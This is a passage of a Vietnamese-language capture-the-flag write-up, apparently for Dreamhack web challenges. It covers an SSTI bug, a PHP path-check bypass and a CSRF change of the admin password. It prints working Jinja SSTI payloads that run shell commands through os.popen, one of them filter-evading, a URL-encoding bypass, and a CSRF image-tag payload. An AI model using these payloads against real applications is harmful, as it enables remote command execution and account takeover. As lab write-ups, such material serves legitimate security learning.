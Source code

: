 ```if($input_1 < "8" && $input_1 < "7.A" && $input_1 > "7.9")```

Có thể thấy các endpoint mình truyền vào sẽ được đưa vào web 

![image](https://hackmd.io/_uploads/S1wUHN-Syg.png)

![image](https://hackmd.io/_uploads/SkbPSVbByg.png)

Mình thử một payload {{7*7}} như sau và đã SSTI được

![image](https://hackmd.io/_uploads/ByHuSVZryl.png)

Cuối cùng mình thử đọc config và có flag

![image](https://hackmd.io/_uploads/BJtCSN-Syx.png)

Ngoài ra chúng ta cũng có thể xài các payload khác như sau

`/%7B%7Bconfig.SECRET_KEY%7D%7D`

`/%7B%7Bself._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat%20./flag.txt').read()%7D%7D`

`/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20./flag.txt').read()%7D%7D`

`/%7B%7Brequest%7Cattr('application')%7Cattr('/x5f/x5fglobals/x5f/x5f')%7Cattr('/x5f/x5fgetitem/x5f/x5f')('/x5f/x5fbuiltins/x5f/x5f')%7Cattr('/x5f/x5fgetitem/x5f/x5f')('/x5f/x5fimport/x5f/x5f')('os')%7Cattr('popen')('cat%20./flag.txt')%7Cattr('read')()%7D%7D`

## simple-phparse

![image](https://hackmd.io/_uploads/BySCdL-rkg.png)

Bài này là một bài check path cơ bản mình có thể bypass bằng cách đổi ký tự như sau

%66lag.php

![image](https://hackmd.io/_uploads/ryXlKUWr1l.png)

## CSRF Advanced

![image](https://hackmd.io/_uploads/rkbAdB4BJe.png)

Bài này là một bài csrf lợi dụng để đổi mật khẩu admin thôi

![image](https://hackmd.io/_uploads/S1-xKBVrke.png)

Mình đọc source thì đã có thể tìm được csrf token của admin 

![image](https://hackmd.io/_uploads/HJYzYBNSJe.png)

Sau đó report payload này để đổi mật khẩu

`<img src='/change_password?pw=123&csrftoken=7505b9c72ab4aa94b1a4ed7b207b67fb' />`

Có mật khẩu là 123 thì đăng nhập vào và ta có flag

![image](https://hackmd.io/_uploads/HkBVYB4r1l.png)

Flag: DH{77bb582329a1b2fc9f8dc2a50b70d586}

## simple-sqli-chatgpt

```